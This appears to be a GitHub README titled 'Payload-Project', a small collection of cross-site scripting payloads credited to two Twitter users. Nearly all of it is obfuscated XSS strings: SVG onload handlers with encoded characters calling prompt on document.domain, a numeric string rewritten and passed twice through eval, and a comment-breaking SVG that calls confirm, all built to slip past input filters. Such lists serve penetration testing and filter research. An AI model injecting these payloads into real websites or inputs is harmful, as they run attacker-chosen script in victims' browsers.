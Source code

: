 # Payload-Project
A collection of XSS payloads 

Twitter : @bohdansec

# <svg onload=prompt%26%230000000040document.domain)>
# <svg onload=prompt%26%23x000000028;document.domain)>
  
Twitter : @aemkei

# x = 91419154914591629164950961951n;[`'${x}'`.replace(/9/g, "\\")].map(eval).map(eval)

# --><Svg OnLoad=(confirm)(`XSS`)><!--


